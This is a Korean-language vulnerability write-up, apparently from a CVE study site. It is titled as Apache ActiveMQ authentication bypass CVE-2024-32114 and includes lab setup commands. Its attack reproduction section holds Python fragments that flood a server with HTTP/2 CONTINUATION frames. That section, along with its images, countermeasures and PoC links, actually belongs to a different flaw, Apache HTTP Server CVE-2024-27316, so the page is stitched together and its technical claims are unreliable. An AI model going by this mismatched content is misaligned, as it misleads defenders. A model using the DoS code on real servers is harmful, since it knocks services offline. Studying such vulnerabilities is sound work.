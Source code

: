 ```yaml
---
layout: default
title: cve-2024-32114
category: "Apache"
nav_order: 2
parent: cve
---
```


# cve-2024-32114
{: .no_toc }

Apache ActiveMQ 인증 우회 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
API 웹 컨텍스트(Jolokia JMX REST API 및 Message REST API)가 인증 없이 접근 가능하도록 되어 있어, 원격 공격자가 권한을 상승시키거나 민감한 정보를 탈취할 수 있는 취약점

{: .note-title }
> **Jolokia JMX REST API**는 JMX (Java Management Extensions) MBeans를 HTTP/HTTPS를 통해 RESTful 방식으로 외부에 노출합니다. 이를 통해 외부 클라이언트는 JMX를 통해 제공되는 다양한 관리 기능과 모니터링 데이터를 접근하고 사용할 수 있게 됩니다. 

## 1.2 취약 대상
Apache ActiveMQ 버전 6.1.2 이전

## 1.3 공격 원리
- Apache ActiveMQ 6.1.1 버전의 기본 설정에서 인증 없는 API 접근
- 공격자는 인증이 필요하지 않은 API 엔드포인트를 식별한 후, 악의적인 페이로드를 생성하여 시스템에 전송
- 취약한 API를 통해 시스템 내에서 권한을 상승시키거나 민감한 정보를 탈취
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows10 (IP: 192.168.9.1) <br>

ActiveMQ v6.1.1 설치 및 http2 프로토콜 사용 설정
```bash
## Java 설치, 환경 변수 설정
sudo apt install openjdk-11-jdk
java -version

vi ~/.bashrc 
## 최하단에 추가
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
export PATH=${PATH}:${JAVA_HOME}/bin

source ~/.bashrc
echo $JAVA_HOME

## ActiveMQ v6.1.1 설치
cd /usr/local/src
wget https://archive.apache.org/dist/activemq/6.1.1/apache-activemq-6.1.1-bin.tar.gz
tar -xvf  apache-activemq-6.1.1-bin.tar.gz

mkdir /opt/activemq
sudo mv /usr/local/src/apache-activemq-6.1.1/* /opt/activemq

## ActiveMQ 사용 계정 생성 및 /opt 접근을 위한 권한 추가
sudo addgroup --quiet --system activemq
sudo adduser --quiet --system --ingroup activemq --no-create-home --disabled-password activemq
sudo chown -R activemq:activemq /opt/activemq

## 외부 접속을 위한 jetty.xml 수정 (/opt/activemq/conf/jetty.xml)
    <bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
             <!-- 127.0.0.1 에서 0.0.0.0 으로 변경 -->
        <property name="host" value="0.0.0.0"/>
        <property name="port" value="8161"/>
    </bean>

## ActiveMQ Service 설정
sudo vi /etc/systemd/system/activemq.service

## 추가
[Unit]
Description=Apache ActiveMQ
After=network.target

[Service]
Type=forking
ExecStart=/opt/activemq/bin/activemq start
ExecStop=/opt/activemq/bin/activemq stop
User=activemq
Group=activemq
Restart=on-failure

[Install]
WantedBy=multi-user.target

## Daemon 재시작
sudo systemctl daemon-reload
sudo systemctl start activemq

## 접속 확인
http://192.168.56.1:8161/admin
```

<br>구현 된 홈페이지 (192.168.56.1:8161/admin)
![](../../assets/images/cve-2024-32114/homepage.png)

---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-32114
[Apache]: https://activemq.apache.org/security-advisories.data/CVE-2024-32114-announcement.txt

